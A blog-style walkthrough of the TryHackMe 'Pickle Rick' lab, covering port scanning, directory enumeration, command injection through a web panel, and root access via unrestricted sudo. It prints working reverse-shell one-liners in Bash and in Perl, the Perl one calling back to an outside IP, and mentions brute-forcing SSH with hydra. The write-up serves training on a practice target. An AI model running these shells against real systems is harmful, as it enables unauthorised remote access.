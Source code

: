 ```yaml
---
layout: posts
title: Pickle Rick Writeup
categories: [TryHackMe]
tags: [Command Injection, Web shell, Directory Enumeration, Dirsearch]
---
```


# Pickle Rick
This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.
Check it out here: [TryHackMe](https://www.tryhackme.com/room/picklerick)

# ~$ Preface
  Hey there, I'll be honest this was the first time I used a web shell lol and it was indeed much fun, I'll walk you through how I went about it XD, funfact Rick&Morty has been my go-to fav cartoon since 2015,  eyepatch morty is my buddy and I genuinely have a deep seated hatred for Jerry and his insipidity ;) but as always I'll be leaving hints before I drop the spoilers, and by spoilers I mean the answers lol just kidding you won't find glaring answers here buddy hehee
  ![image](https://images6.alphacoders.com/876/thumb-1920-876893.jpg)
  
# ~$ Hints 
- source page
- command injection?
- web shells
- directory enumeration
- extensions.

A'ight so as always, a port scan first::
```
┌──(azazel㉿azazel)-[~/Tryhackme/PickleRick]
└─$ nmap -sC -sV 10.10.220.220 -Pn -vv -p 1-1024 -T4 -o nmap
Warning: The -o option is deprecated. Please use -oN
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-11 18:18 WAT
NSE: Loaded 155 scripts for scanning.
Initiating Connect Scan at 18:18
Scanning 10.10.220.220 [1024 ports]
Discovered open port 80/tcp on 10.10.220.220
Not shown: 1022 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 21:86:91:05:1b:b6:3c:1a:91:a3:6b:a6:fe:a3:28:b9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDOejy/mcAGAdwTSazZu0TOhmJzXnVoAlpDkpPFEnxBppNiIDf11gJkgAz/kNJ/Xzpy5/r4EcBm5VlyD1OHbgp4BB7/+XmWFLIiombdwcGEYrnXJ86DdY8JPu4enMn85mhi2eI8/QwHk5PmaIBufGk6YAdrAunR2T3UfZriuJB4MXQw4ElicxJ+EEuaaMirwhVx8p9i1HqC2c5U95N22y/CBDETIgGZHkZQkMC2HpHREbcs7tTPQdPbv9TSL7Ie0Tvdi6LFAMx2zZmfBprnAUT6DsNvRmu5uyGisQpw4STgwjPVJ/BJInFEHPS25Afv/2BVMfhX3af6yJQA4QPuBKJF
|   256 91:18:52:30:3e:b6:e0:29:0d:72:91:17:b7:64:05:03 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEehoL4UxfT2BMPVEAxmPHcDhmZhmzE1AD2zqGHtqgDLkdjKE3xMgqVle5l3DNb6D/44/pTyklMJWmPTTY9t8S0=
|   256 d2:1b:90:6d:32:2f:cb:0e:64:af:61:e7:60:34:95:96 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKcg2XsRFJ0X32sAAhVOLEn/LubUccaCEVVDQV6slCHD
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:18
Completed NSE at 18:18, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:18
Completed NSE at 18:18, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:18
Completed NSE at 18:18, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.34 seconds
```
Okay, just ssh and http hmph...

Straight up, I visited the site::
![image](/assets/img/posts/Rick&Morty/r&mLanding.png)

Found nothing but a message from rick in dire need of our help to revert back to human... Quickly I view the page source, always view the source! therein I find this commented out:
```

    Note to self, remember username!

    Username: R1ckRul3s
    
 ```
 Okay Classic rick keeping hidden reminders for himself, I try the username on port 22 and bruteforce the creds with hydra and realized it could only be 2 things: apparently Rick's pass isn't in a wordlist OR the acquired username is not for ssh, while hydra was still trying I resort to my go-to dir enum tool, Dirsearch:)
fire her up and get these hidden directories:
 
 ```
 ┌──(azazel㉿azazel)-[~/Tryhackme/PickleRick]
└─$ dirsearch -u 10.10.220.220 -w /usr/share/wordlists/dirb/common.txt -t 30

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 4613

Output File: /home/azazel/.dirsearch/reports/10.10.220.220_22-04-11_18-52-02.txt

Error Log: /home/azazel/.dirsearch/logs/errors-22-04-11_18-52-02.log

Target: http://10.10.220.220/

[18:52:10] Starting: 
[18:52:19] 301 -  315B  - /assets  ->  http://10.10.220.220/assets/
[18:52:34] 200 -   1KB - /index.html
[18:52:40] 200 -  882B  - /login.php
[18:52:48] 200 -   17B  - /robots.txt
[18:52:50] 403 -  301B  - /server-status

Task Completed
                                        
 ```
 Nothing much only interesting directory is a login page and the robots.txt, checked that out to see any pages disallowed to be crawled and Instead see Rick's catch phrase
 
 ```
 
 Wub############ub
 
 ```
  ![image](https://media2.giphy.com/media/l41lI4bYmcsPJX9Go/giphy.gif?cid=790b76115528c812b615af1876ff62340969d6ac03f0e5bc&rid=giphy.gif&ct=g)
 
 Welp, we have a username and possibly a pass, but goes where exactly? Found a login page and try the creds there:
 
 ![image](/assets/img/posts/Rick&Morty/rick&mortyloginpage.png)
 
 And then we're greeted with an input field which accepts commands--Command Injection took advantage of this and tried to find and read all the ingredients but there is some sort of input filter that prevents us from reading files with cat, tail, head but not less and find lmao! all of what we need, hehee:
 ![image](/assets/img/posts/Rick&Morty/rick&mortyinputfilter.png)
 
 I could grab all the ingredients through this method but that's no fun! and it also felt somewhat restrictive and defeats the initial access idea.
 Now to upload a shell!

 ![iamge](/assets/img/posts/Rick&Morty/rick&mortydirlis.png)
 
 A classic Bash one liner would work::
```
bash -c >& /dev/tcp/ip/8888 0>&1
```
but I felt like exploring other shell one liners out of curiousity I resorted to trying out Perl, grabbed a Reverse shell one liner from [PentestMonkey](https://pentestmonkey.net/):

```
perl -e 'use Socket;$i="10.8.45.27";$p=8888;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```
NB:: Adjust the parameters to receive the shell, you wouldn't to be sending me a shell, would you now?
 
We're in! and now to comfortably read the Sup3rS3cretPickl3Ingred.txt file

```
www-data@ip-10-10-60-92:/var/backups$ cat Sup3rS3cretPickl3Ingred.txt
mr. ###### hair
```
Found the second ingredient in Rick's Home directory::
```
www-data@ip-10-10-60-92:/home/rick$ cat second\ ingredients
1 #### tear
```

And as compensation and horrible security, the www-data user who we are logged in as has sudo permissions to execute EVERYTHING! sheesh!

```
Matching Defaults entries for www-data on ip-10-10-60-92.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-data may run the following commands on ip-10-10-60-92.eu-west-1.compute.internal:
    (ALL : ALL) ALL
```

To make ourselves root and grab the last ingredient::

```
www-data@ip-10-10-60-92:/home/rick$ sudo su
root@ip-10-10-60-92: cd /root; cat 3rd.txt
```
And that's it! We saved Rick and got to see jerry tears too --the joy:-)

 
 
 
 
 
 
 
 
 
 
 
